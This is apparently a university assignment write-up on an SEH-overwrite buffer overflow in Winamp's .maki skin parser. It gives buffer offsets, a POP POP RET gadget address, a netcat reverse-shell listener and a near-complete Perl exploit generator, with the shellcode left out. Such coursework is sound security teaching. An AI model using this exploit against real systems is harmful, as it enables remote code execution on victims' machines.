

# CIS 751 Programming Assignment 4 (SEH Attack)
### Author: Chuck Zumbaugh
### Collaborators: None

## Executing the attack
For this attack we will replace the `mcvcore.maki` file in the Bento skin with a malicious version. This can be done using the `winamp_exploit.pl` exploit generator as follows:

1. Generate the malicious file by running `perl winamp_exploit.pl > mcvcore.maki`.
2. Replace the `mcvcore.maki` file in `Program Files\Winamp\Skins\Bento\scripts` with the generated malicious file. 
3. Setup a listener on localhost and port 8888 by running `nc -n 127.0.0.1 -lvp 8888`.
4. Open the Winamp program (and possibly switching to the Bento skin) and the listener should receive a reverse shell. *Note: If this is run in the debugger you will need to step through the exception so the handler is executed.*

We should now have a reverse shell like the figure below



## Objective and overview of exploit
The objective of this exploit is to execute a buffer overflow attack on the Winamp program on Windows 7 and generate a reverse shell on the localhost. Winamp has various security features such as address space layout randomization (ASLR) and Stackguard built-in which complicates the exploit. Because ASLR randomizes stack addresses across executions, we cannot return to a specific address on the stack. Additionally, the buffer overflow will overwrite the canary and trigger an execption, so we cannot simply overwrite the saved EIP. Thus, our strategy will be to exploit the structured exception handlers (SEH) that are placed on the stack. When an exception is encountered, such as when the canary has been killed, the handlers are triggered and execution is diverted to the next handler in the SEH chain. The stack contains the pointer to the next SEH record followed by the address of the exception handler. To exploit this, we will overflow the buffer to trigger and exception, overwrite the pointer to the next SEH record with NOP NOP JMP 0x6 (`\x90\x90\xEB\x04`), overwrite the address of the handler with the address of `POP EDI; POP ESI; RET;`, and place the shellcode immediately after. Execution will divert to the address of the exception handler and begin executing the `POP EDI; POP ESI; RET`. The machine word containing the address to the next SEH record is located at ESP + 8. The `POP POP RET` will pop the preceeding machine words from the stack, load the address to the pointer to the next SEH record to the EIP, and jump there. Since we have overwritten this with `NOP NOP JMP 0x6`, execution will jump over the handler address and begin executing our shellcode. The general structure of a SEH record on the stack is shown below.

|           |
| :-------: |
| *Lower addresses* |
| Pointer to next SEH record |
| Address of SEH handler |
| *Higher addresses* |

## Length of the buffer
The length of the buffer, specifically the distance to the address of the SEH handler, was determined by using a 20,000 byte pattern generated using `msf-pattern_create -l 20000`. Analysis of the EIP during exception handling revealed an offset of 16,760 bytes. Thus, after writing 16,754 bytes the address to the next SEH record can be overwritten by the following 4 bytes, and the address to the exception handler can be overwritten by the following 4 bytes. The Perl script `winampx_pattern.pl` file contains a program to generate the `.maki` file that can be used to determine the length of the buffer.

## Address of NOP NOP JMP
The relative address that we wish to place the NOP NOP JMP instruction was determined using the same `winampx_pattern.maki` file as the prior section. While we do not know the exact address due to address randomization, we can examine the stack when the exception is triggered to see if it contains an address that we can load into the EIP register and jump to. Indeed, the address contained at ESP + 8 points to data containing part of our pattern. Regardless of the exact stack addresses, we can divert execution here by calling `POP <register>; POP <register>; RET`. By examining the data at this location, we note that the offset to this is 16,756, or the word directly above the address to the SEH handler.

## Address of POP POP RET
The address of `POP EDI; POP ESI; RET` was found by searching the dynamically linked libraries compiled without ASLR or DEP for `5F 5E C3`. Specifically, the search `s 0x7c340000 L? 0x56000 5F 5E C3` generated a list of possible addresses in the NSCRT library, of which `0x7c341dfd` was selected.

## Exploit
Winamp contains a vulnerability when parsing the `.maki` skin files, in which an integer overflow vulnerability can allow us to trigger a buffer overflow. If the length is given as `\xFF\xFF`, a stack buffer overflow occurs and we can hijack the EIP. To exploit this, we simply need to install a malicious `.maki` file in a skin and run the Winamp program (see [Executing the attack](#executing-the-attack) for details). We can generate the malicious file using the below Perl script (with the shellcode omitted for space). The payload was generated to setup the stack as noted below using the below parameters and encoded using the alpha_mixed encoder.

### General Stack Structure Following Overflow
|                   |
| :-----------------: |
| Smaller addresses |
| 16,756 bytes of junk (`\x41`) |
| Instruction to return to (NOP NOP JMP) |
| Address of `POP EDI; POP ESI; RET` to return to above instruction |
| Shellcode |
| Higher addresses |

### Shellcode Parameters
| Parameter | Value |
| --------- | ----- |
| LHOST | 127.0.0.1 |
| LPORT | 8888 |


### Exploit Generator
```perl
#!/usr/bin/perl

binmode STDOUT;

$| = 1;

# Large value to trigger the overflow
$length = "\xFF\xFF";
# Junk to overflow the buffer, kill the canary, and trigger an exception.
# The distance to the SEH handler was measured as 16,760. We want to 
# fill until the machine word prior to the SEH handler.
$function_name = "\x41"x16756;
# The next word is the address to the next SEH record. We want to 
# overwrite this with a nop nop jmp instruction and point execution
# here
$nop_jmp = "\x90\x90\xEB\x04";
# Address to a POP POP RET instruction in one of the modules. This will
# point execution at the word containing the nop nop jmp instruction.
$pop_ret = "\xfd\x1d\x34\x7c";

# Shellcode generated using Metasploit. See full exploit script 
# for shellcode details. 
$buf = "...Shellcode...";

my $maki =
"\x46\x47" .                              # Magic
"\x03\x04" .                              # Version
"\x17\x00\x00\x00" .                      # ???
"\x01\x00\x00\x00" .                      # Types count
"\x71\x49\x65\x51\x87\x0D\x51\x4A" .      # Types
"\x91\xE3\xA6\xB5\x32\x35\xF3\xE7" .

"\x01\x00\x00\x00".                       # Function count
"\x01\x01" .                              # Function 1
"\x00\x00" .                              # Dummy

$length .                                 # Length
$function_name .
$nop_jmp .
$pop_ret .
$buf;

print $maki;
```